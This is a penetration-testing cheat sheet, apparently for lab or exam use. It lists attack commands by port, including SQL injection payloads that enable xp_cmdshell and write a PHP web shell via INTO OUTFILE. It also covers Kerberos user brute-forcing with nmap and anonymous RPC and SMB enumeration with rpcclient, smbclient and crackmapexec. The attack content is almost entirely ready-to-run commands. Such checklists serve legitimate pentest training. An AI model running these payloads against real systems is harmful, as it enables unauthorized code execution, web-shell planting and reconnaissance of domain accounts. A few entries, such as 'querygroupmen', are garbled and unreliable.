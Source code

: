 #### Windows based code execution SQL injection
- [ ] Attempt these commands in the SQLi sequentially
```powershell
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```
- [ ] Save it as `webshell.php` in a writeable web folder, then navigate to `http://192.168.xxx.xxx/tmp/webshell.php?cmd=id`
```sql
UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

---
## Port 88 (Kerberos) (Domain Controller)

- [ ] Try brute forcing, but this would take a while and needs a shorter `userlist` in `userdb`
```c
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=<Domain>,userdb=/usr/share/wordlists/seclists/usernames/names/names.txt 10.10.xxx.xxx
```

---
## Port 135 (Microsoft RPC)

- [ ] Connect with no credentials, or credentials if you have them
```c
rpcclient -U '' 192.168.xxx.xxx
```

#### Once authenticated
- [ ] Use rpcclient to enum domain users
```c
enumdomusers
```
- [ ] Use rpcclient to dump AD info
```c
querydispinfo
```
- [ ] Use rpcclient to enumerate members of a contractor
```c
enumdomgroups /querygroupmen
```
---

## Port 139/Port 445 (SMB)
- [ ] Use NMAP script to enumerate
```c
nmap --script=smb-enum-users,smb-enum-shares,smb-os-discovery -p 139,445 192.168.xxx.xxx
```
- [ ] Try the following configurations to connect
```c
smbclient -U '' -L \\\\192.168.xxx.xxx
smbclient -U '' -N -L \\\\192.168.xxx.xxx
smbclient -U '%' -N -L \\\\192.168.xxx.xxx
smbclient -U '%' -N \\\\192.168.xxx.xxx\\<Folder>
```
- [ ] Random username with no password and try for anonymous login
```c
crackmapexec smb <IP> -u 'anonymous' -p ''
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u '' -p '' --shares
```